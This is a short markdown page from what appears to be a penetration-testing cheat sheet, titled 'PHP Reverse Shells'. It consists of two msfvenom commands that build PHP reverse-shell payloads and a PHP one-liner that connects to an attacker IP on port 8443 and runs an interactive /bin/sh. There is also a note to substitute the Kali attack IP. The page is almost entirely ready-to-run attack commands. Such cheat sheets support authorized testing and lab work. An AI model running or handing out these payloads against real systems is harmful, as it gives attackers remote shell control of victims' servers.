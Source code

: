 ```yaml
---
title: PHP Reverse Shells
layout: default
nav_order: 4
parent: Reverse Shells

---
```


# PHP Reverse Shell
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=8443 -f raw > shell.php
```

### Non-Meterpreter
```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=8443 -f raw > shell.php
```

```php
php -r '$sock=fsockopen("10.0.0.1",8443);exec("/bin/sh -i <&3 >&3 2>&3");'

```
NOTE: Change the `10.0.0.1` parameter to actual Kali attack IP

Reference - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
